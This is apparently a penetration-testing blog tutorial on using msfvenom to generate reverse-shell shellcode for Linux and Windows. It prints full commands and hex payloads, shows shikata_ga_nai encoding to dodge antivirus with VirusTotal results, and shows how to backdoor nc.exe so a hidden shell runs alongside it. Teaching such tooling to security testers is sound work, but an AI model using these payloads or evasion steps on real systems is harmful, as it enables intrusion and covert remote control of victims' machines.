




All the content on this website, including this post, is intended for educational use only. The techniques and processes presented should only be used against systems you own or have explicit written permission to target. Otherwise, you are breaking the Law - be smart. The author/s of this website will not accept any liability for misuse of this content.
Metasploit
The Metasploit Framework is a “tool for developing and executing exploit code against a remote target.” [1] The tool is used by penetration testers and security professionals to find and exploit vulnerabilities in a system.
Metasploit can use the meterpreter payload which leverages DLL injection to avoid writing to the disk of the compromised machine. This greatly reduces the chance of being caught by antivirus. Meterpreter makes post-exploitation far easier, with the ability to upload and download files, scan for other vulnerabilities and gain persistence on the target system.
Msfvenom is a command line tool (part of Metasploit) that generates Shellcode. There are several options and different types of Shellcode that we can generate and that's what we will be looking at in this post.
Msfvenom
We will be working on Kali Linux for this tutorial - Metasploit is pre-installed on Kali. You can download Kali from https://www.kali.org/downloads/ if you want to follow along.
Let's look at the available payloads supported by Msfvenom.
root@kali:~# msfvenom -l payloads Framework Payloads (546 total) [--payload] ================================================== Name Description ---- ----------- aix/ppc/shell_bind_tcp Listen for a connection and spawn a command shell aix/ppc/shell_find_port Spawn a shell on an established connection aix/ppc/shell_interact Simply execve /bin/sh (for inetd programs) aix/ppc/shell_reverse_tcp Connect back to attacker ...
As you can see there are many payloads avaliable, 546 in fact. Many of the payload types are specific to a single operating system or architecture. We'll list some of the most useful payloads:
linux/x64/meterpreter/reverse_tcp
linux/x64/meterpreter_reverse_http
linux/meterpreter/reverse_tcp
linux/meterpreter_reverse_http
windows/meterpreter/reverse_tcp
windows/meterpreter_reverse_tcp
These payloads will connect back to a machine of our choosing and spawn a meterpreter session over either TCP or HTTP. This will allow us to issue commands on the target system. We might also choose to use HTTPS to support encryption and avoid detection by network intrusion detection systems.
We also have to specify the architecture as either x86 or x64. In general, if you're unsure of the architecture of the target choose x86 - x86 payloads will work on x64 and x86 systems but not vice versa.
We will work with meterpreter in the Penetration Testing section of this website - but we will not go into the details here. Instead, we will work with some different types of payloads and options.
Staged Vs. Stageless Payloads
Staged payloads use a small piece of Shellcode on the target which will connect back to the attacker and download the payload to be delivered to the target. In Metasploit, staged payloads need handlers which manage the delivery of the payload once the stage connects back to the attacker. Staged payloads are good if you have limited space for your Shellcode or if you need to avoid a lot of bad Characters. Staged payloads are denoted with a ‘/’ such as in linux/x64/meterpreter/reverse_tcp.
Stageless payloads contain the entire payload in the Shellcode and are, in general, longer than staged payloads. No further data needs to be given by the attacker. These payloads have the advantage that they can be handled by a variety of listeners, not just those implemented in Metasploit. Stageless payloads are denoted with a ‘_’, such as in windows/meterpreter_reverse_tcp (rather than windows/meterpreter/reverse_tcp).
Generating Shellcode
There are several options we have to specify and these vary between payloads. Let's go through an example and see what all the options do.
root@kali:~# msfvenom -p linux/x64/shell_reverse_tcp lhost=192.168.1.173 lport=9001 -f python Payload size: 74 bytes Final size of python file: 366 bytes buf = "" buf += "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48" buf += "\x97\x48\xb9\x02\x00\x23\x29\xc0\xa8\x01\xad\x51\x48" buf += "\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e" buf += "\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58" buf += "\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48" buf += "\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05" root@kali:~#
In this example the -p tag is used to specify the payload, in this case, the payload will connect back to the attacker and spawn a Shell (known as a reverse Shell) over TCP. The payload is designed for the Linux operating system and x64 architecture. The payload is stageless, denoted by ‘_’ in-between ‘shell’ and ‘reverse’.
The ‘lhost’ option specifies the host that the payload should connect back to, in our case our Kali Linux machine. Similarly, the ‘lport’ option specifies the port that the Shellcode will connect to, in our case 9001.
The -f tag specifies the format that the Shellcode should be written to. In our case we selected python - the Shellcode can easily be included in a Python script (exploit written in Python). We can also write directly to executable binaries using the ‘-f elf’ and ‘-f exe’ options for Linux and Windows respectively.
We haven't specified an architecture specifically, but Msfvenom has selected x64 based on the Payload. We also have not specified an encoder which can encode the Payload in various ways to avoid detection by AV. We have not specified any bad characters either.
We can see our final payload has been generated at a length of 74 bytes.
Advanced Options
Let's look at a more complicated example.
root@kali:~# msfvenom -p linux/x64/shell_reverse_tcp lhost=192.168.1.173 lport=9001 -f python -e x86/shikata_ga_nai -i 10 -b "\x00\x09\x0a\x20" [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload [-] No arch selected, selecting arch: x64 from the payload Found 1 compatible encoders Attempting to encode payload with 10 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 101 (iteration=0) x86/shikata_ga_nai succeeded with size 128 (iteration=1) x86/shikata_ga_nai succeeded with size 155 (iteration=2) x86/shikata_ga_nai succeeded with size 182 (iteration=3) x86/shikata_ga_nai succeeded with size 209 (iteration=4) x86/shikata_ga_nai succeeded with size 236 (iteration=5) x86/shikata_ga_nai succeeded with size 263 (iteration=6) x86/shikata_ga_nai succeeded with size 290 (iteration=7) x86/shikata_ga_nai succeeded with size 317 (iteration=8) x86/shikata_ga_nai succeeded with size 344 (iteration=9) x86/shikata_ga_nai chosen with final size 344 Payload size: 344 bytes Final size of python file: 1656 bytes buf = "" buf += "\xdb\xdb\xbe\x5c\x3a\x44\x56\xd9\x74\x24\xf4\x5b\x29" buf += "\xc9\xb1\x50\x83\xc3\x04\x31\x73\x14\x03\x73\x48\xd8" buf += "\xb1\xee\xba\x8e\x48\xa1\xe1\x70\x75\xc9\x31\x7b\xd8" buf += "\x19\xf0\x32\xac\xde\xec\xc9\x1e\xa7\xe0\x32\x27\x37" buf += "\x28\x52\x0e\x59\x3e\x06\x24\xb4\x11\x74\x39\x70\x36" buf += "\x54\x17\x58\xda\x2b\x3c\x41\x8a\x12\xbf\xfa\x71\x44" buf += "\xd5\x51\x39\x73\x12\x08\x6e\x7d\x53\xd0\x77\xc3\x54" buf += "\x1f\x31\x8d\xbc\xdd\x4c\x7f\x43\x30\x4d\xa4\x8a\xae" buf += "\x01\xb4\x4b\xe3\xc2\x1d\xaa\x72\x0c\x84\x02\xe7\x4f" buf += "\x9c\xce\xb0\x50\x6c\x9d\xec\x2f\x28\x55\x5a\xcb\xd4" buf += "\xba\x64\x1d\x5a\x53\x17\x35\x42\x0b\xc8\xf2\xd6\x97" buf += "\x3c\x46\x71\x65\xb1\xed\x4b\x73\xb5\x6f\xa9\xbd\x60" buf += "\x41\xb2\x02\x16\x37\xa8\xcb\x70\x5f\xb5\x7a\x78\xda" buf += "\xbf\xc7\xc9\xd4\x32\x77\x94\xb3\xb1\x56\xb8\xca\x22" buf += "\x18\x55\xf1\x22\x5b\xd1\x3d\x85\x56\x6b\xdc\xfe\xd7" buf += "\x6e\x1c\x6b\xb7\xa2\x4c\x6a\x91\xc4\xbe\xfb\x25\xc6" buf += "\x3f\xeb\xd5\x15\x95\x4f\x3f\x8b\x38\x67\xfe\xb4\x3e" buf += "\xdf\x23\x8a\x14\x1f\xc2\x0f\x01\xd7\x31\xd7\xa1\xa0" buf += "\x25\x76\xe4\xce\xf8\x34\xa5\x41\x98\xd3\xa8\x46\x2d" buf += "\x10\x0e\x22\x1d\xa6\x4a\x7d\xc4\x55\x83\x97\x72\xad" buf += "\xe5\xe2\x39\x01\x7e\x78\xcb\xf3\x06\xc0\x7c\x75\xf6" buf += "\x4b\x35\x5c\x95\x30\x52\x2d\xce\x88\xd4\x2a\xbf\x05" buf += "\x3e\xfa\x24\x31\x1d\x3b\x0b\x6a\x18\x81\x2a\x4d\x21" buf += "\x50\x72\x3c\x65\x5f\xd7\x3f\x80\xa1\x3b\xcf\x93\x5c" buf += "\xbd\x6f\x16\x88\xbe\xfc\x6a\x50\x66\x48\xf3\x5c\xe1" buf += "\xd8\xf0\x19\x1a\x2d\xfa\xaa\x94\x1e\x25\x0f\x70\xc0" buf += "\xa7\x9e\x56\x91\x86\xcc" root@kali:~#
This time we have specified an encoder, namely x86/shikata_ga_nai with 10 iterations (using the -e and -i tags respectively). Shikata_ga_nai is a Polymorphic XOR Additive Feedback Encoder. You can read more about how it works here https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.htm. This will help our Shellcode avoid detection from antivirus but dramatically increases its size.
We also specify bad characters that should be excluded from the Shellcode. We can also specify the --smallest option to try and decrease the size of the Shellcode and make it as small as possible.
Antivirus Detection
Despite being an immensely useful tool, Metasploit has been well studied by antivirus companies and most Shellcode generated using Msfvenom will light up like a Christmas tree when analysed.
We will mention several methods to decrease the likelihood of detection. We will create Shellcode embedded into Windows executables. Lets first look at a basic example without any encoders applied.
root@kali:~# msfvenom -p windows/shell_reverse_tcp lhost=127.0.0.1 lport=9001 -f exe -o /tmp/cmd.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload No encoder or badchars specified, outputting raw payload Payload size: 324 bytes Saved as: /tmp/cmd.exe root@kali:~#
We write out shellcode to an exe file called cmd.exe. Let's use virustotal.com to see how this file stands against antivirus engines.
Our executable with no encoding.
As you can see 21/58 engines detected this Payload - not good odds. We need to improve the rate of detection significantly. Let's try applying an encoder. We will use shikata_ga_nai with 10 iterations to see if this helps.
root@kali:~# msfvenom -p windows/shell_reverse_tcp lhost=127.0.0.1 lport=9001 -f exe -e x86/shikata_ga_nai -i 10 -o /tmp/cmd.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload Found 1 compatible encoders Attempting to encode payload with 10 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 351 (iteration=0) x86/shikata_ga_nai succeeded with size 378 (iteration=1) x86/shikata_ga_nai succeeded with size 405 (iteration=2) x86/shikata_ga_nai succeeded with size 432 (iteration=3) x86/shikata_ga_nai succeeded with size 459 (iteration=4) x86/shikata_ga_nai succeeded with size 486 (iteration=5) x86/shikata_ga_nai succeeded with size 513 (iteration=6) x86/shikata_ga_nai succeeded with size 540 (iteration=7) x86/shikata_ga_nai succeeded with size 567 (iteration=8) x86/shikata_ga_nai succeeded with size 594 (iteration=9) x86/shikata_ga_nai chosen with final size 594 Payload size: 594 bytes Saved as: /tmp/cmd.exe root@kali:~#

Our executable with 10 iterations of the Shikata Ga Nai encoding.
Wow, that's an improvement. It should be noted that antivirus companies can choose to use a limited version of their engine on totalvirus and the Shellcode might be detected using the commercial product.
Let's look at other options - we can backdoor an existing Windows executable. This will embed our Shellcode into the program. When the program is run everything will look normal but in the background are Shellcode has run. We use the -x option to specify the executable to backdoor and -k to allow the payload to run in a separate thread, thus allowing the executable to run as normal. This may avoid the eyes of Antivirus - let's see.
Kali has several Windows executables preinstalled, such as nc.exe. Let's backdoor this program.
root@kali:~# msfvenom -p windows/shell_reverse_tcp lhost=127.0.0.1 lport=9001 -x /usr/share/windows-resources/binaries/nc.exe -k -f exe -e x86/shikata_ga_nai -i 10 -o /tmp/nc.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload Found 1 compatible encoders Attempting to encode payload with 10 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 351 (iteration=0) x86/shikata_ga_nai succeeded with size 378 (iteration=1) x86/shikata_ga_nai succeeded with size 405 (iteration=2) x86/shikata_ga_nai succeeded with size 432 (iteration=3) x86/shikata_ga_nai succeeded with size 459 (iteration=4) x86/shikata_ga_nai succeeded with size 486 (iteration=5) x86/shikata_ga_nai succeeded with size 513 (iteration=6) x86/shikata_ga_nai succeeded with size 540 (iteration=7) x86/shikata_ga_nai succeeded with size 567 (iteration=8) x86/shikata_ga_nai succeeded with size 594 (iteration=9) x86/shikata_ga_nai chosen with final size 594 Payload size: 594 bytes Final size of exe file: 61952 bytes Saved as: /tmp/nc.exe root@kali:~#

Nc.exe backdoored with our Shellcode.
Wow, definitely not. One would think masking the executable inside a legitimate file would work however antivirus has become aware of this practise and are very good at detecting this behaviour.
It seems your best option is to use an encoder with several iterations to avoid detection. Another great way to avoid detection is to write your own custom Shellcode. Msfvenom is well known by antivirus engines and will likely be detected. Custom Shellcode is likely not as well studied and more likely to avoid detection. The rest of this Shellcode section will be focused on writing our own Shellcode with various payloads against various operating systems. This will give you a greater appreciation of how Shellcode works and how it can be used to exploit security vulnerabilities.